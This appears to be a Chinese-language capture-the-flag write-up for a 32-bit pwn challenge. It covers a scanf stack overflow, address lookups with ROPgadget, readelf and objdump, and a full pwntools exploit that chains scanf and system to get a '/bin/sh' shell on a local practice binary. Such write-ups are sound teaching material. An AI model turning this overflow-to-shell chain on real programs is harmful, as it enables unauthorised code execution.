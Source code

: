 ## 1、静态分析

### 1.1 F5反编译

```
int sub_804851D()
{
  return system((const char *)0x6F616D69);
}

int __cdecl main()
{
  int v1; // [esp+18h] [ebp-28h]

  puts("pwn test");
  fflush(stdout);
  __isoc99_scanf("%s", &v1);
  printf("%s", &v1);
  return 1;
}
```

### 1.2 漏洞原理

​	scanf未定义变量大小，存在缓冲区溢出，程序内部有system函数，不需要libc来获取system函数真实地址，可以调用scanf("%s",bss地址)将'/bin/sh'字符串放到bss段里，构造执行链：

```
scanf_addr+ppr+%s地址+bss段基址+system_addr+exit_addr+bss段基址
```

## 2、编写EXP

### 2.1 查找函数地址

- 查找ppr地址

```
ROPgadget --binary pwn1 --only "pop|pop|ret"
```
ppr_addr = 0x080485ee

- 查找bss地址

```
readelf -S pwn1
```

bss_addr = 0x0804a040

- 查找函数地址

```
objdump -d pwn1
```
system_addr = 0x080483e0

scanf_addr = 0x08048410

format_addr = 0x08048629

### 2.2 EXP

```
from pwn import *

p = process('./pwn1')

ppr_addr = p32(0x080485ee)
bss_addr = p32(0x0804a040)
system_addr = p32(0x080483e0)
scanf_addr = p32(0x08048410)
format_addr = p32(0x08048629)

payload = b'\x90'*52 + scanf_addr + ppr_addr + format_addr + bss_addr + system_addr + b'\x90'*4 + bss_addr

p.sendline(payload)
p.sendline('/bin/sh')
p.interactive()
```
